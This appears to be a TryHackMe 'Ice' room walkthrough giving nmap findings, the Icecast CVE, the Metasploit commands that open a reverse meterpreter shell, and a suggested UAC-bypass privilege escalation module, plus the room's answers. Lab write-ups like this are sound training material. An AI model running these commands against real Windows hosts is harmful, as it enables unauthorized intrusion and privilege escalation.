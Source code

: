 Deploy & hack into a Windows machine, exploiting a very poorly secured media server.


Room Link: <a href="https://tryhackme.com/r/room/ice"</a>

Task 1 - Connect
Task 2 - Recon
Task 3 - Gain Access
Task 4 - Escalate
Task 5 - Looting
Task 6 - Post-Exploitation
Task 7 - Extra Credit


Task 1 - Connect
Get connected to the TryHackMe network using OpenVPN. Make sure to first download your configuration file from your access page.

Task 2 - Recon
Click on Start Machine to deploy the machine!



Time to Scan and Enumerate our target!

An NMAP scan reveals the following ports were discovered to be open:



Q: One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?
Answer: 3389

Q: What service did nmap identify as running on port 8000? (First word of this service)
Answer: Icecast



Q: What does Nmap identify as the hostname of the machine? (All caps for the answer)
Answer: DARK-PC



Task 3 - Gain AccessPermalink
In this task we must find a way to exploit any vulnerable services on the target to gain a foothold. The cvedetails website reveals that the impact score and the CVE number for this vulnerability as displayed in the image below.

Q: What is the Impact Score for this vulnerability? Use https://www.cvedetails.com for this question and the next.
Answer: 6.4



Q: What is the CVE number for this vulnerability?
Answer: CVE-2004-1561

It is time to use the information that we have collected to locate an exploit for our target. We will use automation for this exploitation exercise with Metasploit being our tool of choice.

Type “msfconsole” to launch the Metasploit Framework.



Q: After Metasploit has started, let’s search for our target exploit using the command ‘search icecast’. What is the full path (starting with exploit) for the exploitation module? If you are not familiar with metasploit, take a look at the Metasploit module.
Answer: exploit/windows/http/icecast_header



use exploit/windows/http/icecast_header



set RHOSTS 10.2.119.123 

set LHOST tun0



# set LHOST attackerIPaddress or interface

exploit



Task 4 - EscalatePermalink
Our goal for this task is to complete any local enumeration to discover paths to escalte our privileges in our quest to gain Admin powers.
Q: Woohoo! We’ve gained a foothold into our victim machine! What’s the name of the shell we have now?
Answer: meterpreter

getuid

Q: What user was running that Icecast process? The commands used in this question and the next few are taken directly from the ‘Metasploit’ module.
Answer: Dark

Q: What build of Windows is the system?
Answer: 7601



Q:Now that we know some of the finer details of the system we are working with, let’s start escalating our privileges. First, what is the architecture of the process we’re running?
Answer: x64

Now that we know the architecture of the process, let’s perform some further recon. While this doesn’t work the best on x64 machines, let’s now run the following command run post/multi/recon/local_exploit_suggester. This can appear to hang as it tests exploits and might take several minutes to complete

run post/multi/recon/local_exploit_suggester

Q: Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
Answer: exploit/windows/local/bypassuac_eventvwr



Q: What build of Windows is the system?
Answer: 7601

 

 

Task 5 - Looting


Task 6 - Post-Exploitation
Task 7 - Extra Credit
